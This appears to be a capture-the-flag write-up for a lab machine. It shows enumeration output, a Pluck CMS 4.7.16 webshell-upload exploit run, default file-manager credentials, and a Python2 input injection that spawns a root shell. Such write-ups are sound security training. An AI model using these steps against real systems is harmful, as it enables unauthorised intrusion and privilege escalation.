


# AbsurdOuting

## 信息收集

```bash
Detected ss and lsof, executing related commands...
Port: 33060, PID: 928
—> Command: /usr/sbin/mysqld 
Port: 3306, PID: 928
—> Command: /usr/sbin/mysqld 
Port: 53, PID: 637
—> Command: /lib/systemd/systemd-resolved 
Port: 22, PID: 836
—> Command: sshd: /usr/sbin/sshd -D [listener] 1 of 10-100 startups 
Port: 1337, PID: 818
—> Command: /usr/bin/socat TCP-LISTEN:1337,bind=127.0.0.1,FORK EXEC:/usr/bin/python2 /root/fight/main.py 

## ———————————————————————————— ##

Nginx is not installed.

## ———————————————————————————— ##

Detected apache, analyzing its configuration...

Unique Hosts:


## ———————————————————————————— ##

Checking /etc/sudoers (active configurations only):
  Defaults      env_reset
  Defaults      mail_badpass
  Defaults      secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin"
  root  ALL=(ALL:ALL) ALL
  %admin ALL=(ALL) ALL
  %sudo ALL=(ALL:ALL) ALL
———
Finding SUID files:
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/bin/mount
/usr/bin/sudo
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/passwd
/usr/bin/fusermount
/usr/bin/chsh
/usr/bin/at
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/su
———
Finding files with special capabilities:
  /usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
  /usr/bin/ping = cap_net_raw+ep
  /usr/bin/mtr-packet = cap_net_raw+ep
  /usr/bin/traceroute6.iputils = cap_net_raw+ep
———
Detected nginx or apache2 process running.
Found /var/www directory. Compressing it to web.zip...
bash: line 150: zip: command not found
Compression failed.
```

## Port 80 /pluck pluck 4.7.16

[Pluck CMS 4.7.16 - Remote Code Execution (RCE) (Authenticated) - PHP webapps Exploit](https://www.exploit-db.com/exploits/50826)

```bash
┌──(randark㉿kali)-[~/pocs]
└─$ python3 Pluck-CMS-Pluck-4.7.16-Theme-Upload-Remote-Code-Execution-Authenticated--POC.py 10.10.110.102 80 admin /pluck

Authentification was succesfull, uploading webshell

Uploaded Webshell to: http://10.10.110.102:80/pluck/data/themes/shell/shell.php
```



## Port 80 /hotel HotelDruid version 3.0.3

版本过高，无漏洞信息

## Port 80 /tiny Tiny File Manager

默认凭据

```plaintext
admin/admin@123
user/12345
```

任意文件上传



## 提权

```bash
(remote) www-data@htb:/tmp$ nc 127.0.0.1 1337
Jotaro put himself in jail!
Can you convince him to get out?
Defeat him!
Your attacks are:
0: Cross Fire Hurricane
Damage: D5
1: Red Bind
Damage: S2
2: Punch
Damage: D1
__import__("pty").spawn("/bin/bash")
root@htb:~# cat /root/flag.txt
cat /root/flag.txt
cf66d5355ca3252cca44190f2a05573d
```
